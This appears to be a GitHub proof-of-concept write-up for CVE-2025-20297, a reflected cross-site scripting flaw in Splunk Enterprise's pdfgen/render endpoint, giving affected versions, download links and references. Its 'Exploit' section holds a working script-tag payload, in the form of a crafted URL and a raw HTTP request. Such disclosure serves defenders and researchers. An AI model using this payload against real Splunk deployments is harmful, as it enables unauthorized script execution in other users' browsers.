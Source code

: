 ## CVE-2025-20297
## VULNERABILITY DETAILS
Reflected Cross-Site Scripting (XSS) on Splunk Enterprise through dashboard PDF generation component

## Description
In Splunk Enterprise versions below 9.4.2, 9.3.4 and 9.2.6, and Splunk Cloud Platform versions below 9.3.2411.102, 9.3.2408.111 and 9.2.2406.118, a low-privileged user that does not hold the “admin” or “power” Splunk roles could craft a malicious payload through the pdfgen/render REST endpoint that could result in execution of unauthorized JavaScript code in the browser of a user.

## VULNERABILITY
splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64 (tested)

## Diff splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64 VS splunk-9.3.4-30e72d3fb5f7-linux-2.6-amd64
Download: https://download.splunk.com/products/splunk/releases/9.3.0/linux/splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64.deb

Download: https://download.splunk.com/products/splunk/releases/9.3.4/linux/splunk-9.3.4-30e72d3fb5f7-linux-2.6-amd64.deb

![image](https://github.com/user-attachments/assets/28686a3c-3b89-4ffb-94f7-205276b7ae73)


## Exploit:
Require login => execute javascript
```
http://<Host>:8000/en-US/splunkd/__raw/services/pdfgen/render?type=<script>alert(document.domain)</script>

```
```
GET /services/pdfgen/render?type=<script>alert(document.domain)</script> HTTP/1.1
Host: <Host>:8089
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Authorization: Basic username:password
```


https://github.com/user-attachments/assets/5d08ed56-0a1b-42f2-8b99-f8e0aaac782d




## References:
- https://advisory.splunk.com/advisories/SVD-2025-0601
- https://nvd.nist.gov/vuln/detail/CVE-2025-20297
- https://www.fosstechnix.com/how-to-install-splunk-on-ubuntu-24-04-lts/
